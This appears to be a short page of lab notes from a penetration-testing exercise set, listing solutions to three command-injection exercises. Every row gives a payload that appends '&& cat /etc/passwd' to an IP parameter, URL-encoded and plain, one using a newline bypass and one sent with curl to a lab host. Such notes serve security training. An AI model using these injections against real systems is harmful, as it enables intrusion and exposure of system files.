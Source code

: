 # Phase III: Vulnerbility discovery & Exploitation
## Command Injection
| excercise | solution |
|-----------|----------|
| example 1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd 10.0.2.4 && cat /etc/passwd|
| example 2 | 10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd 10.0.2.4(New Line)&& cat /etc/passwd|
| example 3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |